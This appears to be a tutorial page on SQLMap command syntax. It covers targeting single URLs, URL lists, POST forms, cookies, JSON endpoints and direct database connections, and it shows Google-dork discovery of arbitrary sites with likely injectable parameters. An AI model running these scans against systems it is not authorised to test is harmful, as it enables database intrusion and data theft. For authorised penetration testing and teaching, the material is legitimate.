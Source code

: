 ```yaml
---
title: Basic Syntax and Targeting
description: Learn the fundamental SQLMap commands and targeting methods
---
```


# Basic Syntax and Target Specification

SQLMap provides multiple ways to specify targets for testing. This section covers the most common methods for targeting websites and databases.

<Tabs defaultValue="url" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="url">Single URL</TabsTrigger>
    <TabsTrigger value="multiple">Multiple URLs</TabsTrigger>
    <TabsTrigger value="advanced">Advanced Targeting</TabsTrigger>
  </TabsList>
  <TabsContent value="url">
    ### Targeting a Single URL

    The most fundamental operation in SQLMap is targeting a single URL for vulnerability testing using the `-u` or `--url` flag.

    ```bash
    sqlmap -u "http://www.example.com/vuln.php?id=1"
    ```

    When this command is executed, SQLMap automatically tests the `id` parameter for various types of SQL injection vulnerabilities. It sends crafted requests to the server and analyzes the responses for anomalies that indicate a vulnerability.

    SQLMap can detect a wide range of injection types:
    - Boolean-based blind
    - Time-based blind
    - Error-based
    - UNION query-based injections

    #### Real-World Example

    In a penetration test, you might identify a potential vulnerability in a search feature:

    ```bash
    sqlmap -u "http://shop.example.com/search?q=laptops"
    ```

    This tests the `q` parameter for vulnerabilities. If SQLMap detects an issue, it provides detailed information about the injection type and the backend database management system \(DBMS\).
  </TabsContent>
  <TabsContent value="multiple">
    ### Targeting Multiple URLs from a File

    For large-scale penetration tests, you can test multiple targets using the `-m` flag with a file containing a list of URLs:

    ```bash
    sqlmap -m targets.txt
    ```

    The file should contain one URL per line:
    ```
    www.target1.com/vuln1.php?q=foobar
    www.target2.com/vuln2.asp?id=1
    www.target3.com/vuln3/id/1*
    ```

    This approach is particularly useful when you have URLs gathered from a web crawler or Google dorking session.

    ### Using Google Dorks for Target Discovery

    SQLMap can use Google dorks to discover potential targets with the `-g` flag:

    ```bash
    sqlmap -g "inurl:\".php?id=1\""
    ```

    This searches for websites with a URL parameter named `id` with a value of `1`, which is a common indicator of potential SQL injection vulnerabilities.

      </TabsContent>
  <TabsContent value="advanced">
    ### Specifying a Direct Database Connection

    You can connect directly to a database using the `-d` flag:

    ```bash
    sqlmap -d "mysql://admin:password@127.0.0.1:3306/testdb"
    ```

    The connection string format is `DBMS://user:password@host:port/database`. This allows you to interact with the database directly, bypassing any web application security measures.

    This technique is useful when you've discovered database credentials during a penetration test and want to explore the database further.

    ### Using Request Files

    You can save an HTTP request to a file and use it with SQLMap:

    ```bash
    sqlmap -r request.txt
    ```

    This is particularly useful for complex requests with custom headers, cookies, or POST data.
  </TabsContent>
</Tabs>

## Common Targeting Scenarios

<Stepper>
  <StepperItem title="Basic Website Testing">
    For a simple website with GET parameters:
    ```bash
    sqlmap -u "http://target.com/page.php?id=1" --batch
    ```
    The `--batch` flag accepts default answers to all prompts, making the scan fully automated.
  </StepperItem>
  <StepperItem title="Testing POST Forms">
    When testing a form that uses POST method:
    ```bash
    sqlmap -u "http://target.com/login.php" --data="username=test&password=test" --batch
    ```
    This tests both the username and password parameters for SQL injection vulnerabilities.
  </StepperItem>
  <StepperItem title="Testing with Authentication">
    For sites requiring authentication:
    ```bash
    sqlmap -u "http://target.com/admin/dashboard.php" --cookie="PHPSESSID=abc123def456" --batch
    ```
    You can obtain the cookie value by logging in through a browser and copying it from the developer tools.
  </StepperItem>
</Stepper>


## Database Support

<Tabs defaultValue="common" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="common">Common Databases</TabsTrigger>
    <TabsTrigger value="enterprise">Enterprise Databases</TabsTrigger>
    <TabsTrigger value="specialized">Specialized Systems</TabsTrigger>
  </TabsList>
  <TabsContent value="common">
    ### Common Database Systems
    
    These are the most frequently encountered database systems in web applications:
    
    - **MySQL/MariaDB**: `--dbms=mysql`
    - **PostgreSQL**: `--dbms=postgresql`
    - **Microsoft SQL Server**: `--dbms=mssql`
    - **SQLite**: `--dbms=sqlite`
    
    ```bash
    # Example for MySQL
    sqlmap -u "http://target.com/page.php?id=1" --dbms=mysql --batch
    ```
  </TabsContent>
  <TabsContent value="enterprise">
    ### Enterprise Database Systems
    
    These database systems are commonly found in enterprise environments:
    
    - **Oracle**: `--dbms=oracle`
    - **IBM DB2**: `--dbms=db2`
    - **SAP MaxDB**: `--dbms=maxdb`
    - **Sybase**: `--dbms=sybase`
    
    ```bash
    # Example for Oracle
    sqlmap -u "http://target.com/page.php?id=1" --dbms=oracle --batch
    ```
  </TabsContent>
  <TabsContent value="specialized">
    ### Specialized Database Systems
    
    These are less common but still supported by SQLMap:
    
    - **Microsoft Access**: `--dbms=access`
    - **Firebird**: `--dbms=firebird`
    - **HSQLDB**: `--dbms=hsqldb`
    - **Informix**: `--dbms=informix`
    
    ```bash
    # Example for Microsoft Access
    sqlmap -u "http://target.com/page.php?id=1" --dbms=access --batch
    ```
  </TabsContent>
</Tabs>


## Advanced Targeting Options

<Stepper>
  <StepperItem title="Specify Test Parameters">
    You can specify which parameters to test using the `-p` flag:
    ```bash
    sqlmap -u "http://target.com/page.php?id=1&user=admin" -p id
    ```
    This tells SQLMap to only test the `id` parameter, ignoring others.
  </StepperItem>
  <StepperItem title="Custom Injection Points">
    Use an asterisk (*) to mark a custom injection point:
    ```bash
    sqlmap -u "http://target.com/page.php?id=1*" --batch
    ```
    This is useful when you want to test a specific part of a parameter.
  </StepperItem>
  <StepperItem title="Testing JSON Parameters">
    For APIs that accept JSON data:
    ```bash
    sqlmap -u "http://target.com/api/endpoint" --data="{\"id\":1}" --batch
    ```
    SQLMap will automatically detect and test JSON parameters.
  </StepperItem>
</Stepper>
